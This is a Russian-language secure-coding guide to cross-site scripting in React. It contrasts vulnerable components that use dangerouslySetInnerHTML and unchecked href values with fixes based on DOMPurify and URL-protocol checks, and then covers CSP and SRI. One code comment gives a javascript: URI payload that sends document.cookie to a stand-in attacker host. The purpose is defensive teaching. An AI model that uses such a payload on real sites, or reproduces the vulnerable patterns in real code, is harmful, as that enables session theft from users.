

Cross-Site Scripting (XSS) — это уязвимость, при которой злоумышленник внедряет вредоносный JavaScript-код в веб-приложение, и этот код выполняется в браузере жертвы. 

## 1. Суть проблемы (Какую боль решаем?)
В современных веб-приложениях мы часто рендерим данные, полученные от пользователей. Если эти данные не очистить (sanitize), браузер не сможет отличить легитимный код приложения от вредоносного скрипта. 
Результат: кража сессий (Cookies/LocalStorage), выполнение действий от имени пользователя или редирект на фишинговые сайты.



## 2. Как это выглядит в коде

### Антипаттерн (Уязвимый код)
В React по умолчанию встроен механизм экранирования, но разработчики часто обходят его ради рендеринга HTML или по невнимательности.

```tsx
// ❌ ОПАСНО: Вставка сырого HTML напрямую
function Comment({ text }) {
  // Если text = "", скрипт выполнится!
  return <div dangerouslySetInnerHTML={{ __html: text }} />;
}

// ❌ ОПАСНО: javascript: URI
function ProfileLink({ url }) {
  // Если url = "javascript:fetch('http://hacker.com?cookie='+document.cookie)", данные утекут
  return <a href={url}>Перейти в профиль</a>;
}
```

### Правильный подход (Защищенный код)
```tsx
import DOMPurify from 'dompurify';

// ✅ БЕЗОПАСНО: Очистка HTML перед вставкой
function Comment({ text }) {
  const cleanHtml = DOMPurify.sanitize(text);
  return <div dangerouslySetInnerHTML={{ __html: cleanHtml }} />;
}

// ✅ БЕЗОПАСНО: Валидация протокола
function ProfileLink({ url }) {
  const isSafeUrl = url.startsWith('http://') || url.startsWith('https://');
  return isSafeUrl ? <a href={url}>Перейти</a> : <span>Неверная ссылка</span>;
}
```

## 3. Неочевидные нюансы и трейдоффы

* **Оверхед на очистку (Sanitization):** Библиотеки вроде `DOMPurify` работают надежно, но парсинг DOM на лету требует процессорного времени. Если на странице рендерятся тысячи комментариев с HTML, это вызовет лаги. *Решение:* Очищать HTML на стороне бэкенда перед сохранением в БД или кэшировать результат.
* **Content Security Policy (CSP):** XSS не лечится одним только экранированием. Всегда нужно внедрять заголовок CSP (`Content-Security-Policy`), который запретит выполнение `inline-scripts` и загрузку скриптов с левых доменов. CSP — это второй, самый мощный рубеж защиты.
* **Третьесторонние скрипты (Third-party XSS):** Ваш код может быть идеальным, но если вы подключаете аналитику, виджеты чата или рекламу через `<script src="...">`, их взлом приведет к полному компрометированию вашего фронтенда. Используйте атрибут `integrity` (SRI) для фиксации хэшей внешних скриптов.
